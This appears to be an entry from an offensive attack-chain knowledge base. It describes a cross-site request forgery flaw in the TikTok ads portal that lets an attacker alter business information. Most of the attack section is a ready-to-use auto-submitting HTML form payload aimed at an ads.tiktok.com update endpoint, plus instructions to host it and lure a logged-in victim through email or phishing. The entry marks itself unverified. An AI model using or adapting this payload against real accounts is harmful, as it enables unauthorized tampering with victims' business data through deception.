

---
tags:
  - csrf
  - web
  - tiktok
  - ads-portal
  - data-tampering
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: low
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-CSRF-to-Alter-Business-Data-in-TikTok-Ads-Portal]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:27:42.978Z'
description: >-
  A CSRF vulnerability in the TikTok ads portal allows authenticated users in
  the same center to forge requests and unauthorizedly alter business
  information without proper token validation.
skill_level: intermediate
impact_level: medium
id: 2287689d-6975-481a-a9ff-0a901ecc340b
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# CSRF Exploitation to Modify Business Information in TikTok Ads Portal

Multi-stage attack chain demonstrating a complete attack workflow targeting the TikTok ads portal via CSRF to enable unauthorized business data modifications.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser for testing
- Text editor to craft malicious HTML

### Target Environment

- Web platform
- TikTok ads portal service
- Access to a victim user in the same center

### Initial Access Requirements

- Victim must be authenticated in the TikTok ads portal
- Attacker must be in the same center as the victim
- Network access to deliver the malicious payload (e.g., via email or phishing site)

## Detailed Attack Procedures

### Step 1: Forge and Deliver CSRF Payload
procedure: [[procedures/Exploit-CSRF-to-Alter-Business-Data-in-TikTok-Ads-Portal]]

**Objective**: Trick an authenticated victim into submitting a forged request to update business information without CSRF token validation.

**Instructions**: Create a malicious HTML page that automatically submits a form to the vulnerable endpoint using the victim's active session. Host this page on an attacker-controlled server or deliver it via phishing. When the victim visits the page while logged into the TikTok ads portal, the form submission will alter the business data.

Example malicious HTML payload:

```html
<!DOCTYPE html>
<html>
<body>
  <form action="https://ads.tiktok.com/business/update" method="POST" id="csrf-form">
    <input type="hidden" name="business_name" value="Hacked Business Name">
    <input type="hidden" name="address" value="Fake Address">
    <!-- Add other fields to modify -->
  </form>
  <script>
    document.getElementById('csrf-form').submit();
  </script>
</body>
</html>
```

Deliver this to the victim (e.g., via email link). No specific command-line tools are required, but use a local server like Python's http.server to host:

```bash
python3 -m http.server 8000
```

**Expected Output**: Upon submission, the business information is updated on the server side without alerting the user.

**Success Indicators**:
- Victim's browser submits the form silently
- Attacker verifies changes by accessing the business profile (if possible)
- No CSRF token error occurs

## Attack Chain Summary

### Key Achievements

1. Successful forgery of update requests using victim's session
2. Unauthorized modification of sensitive business data
3. Exploitation limited to same-center users, enabling targeted tampering

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
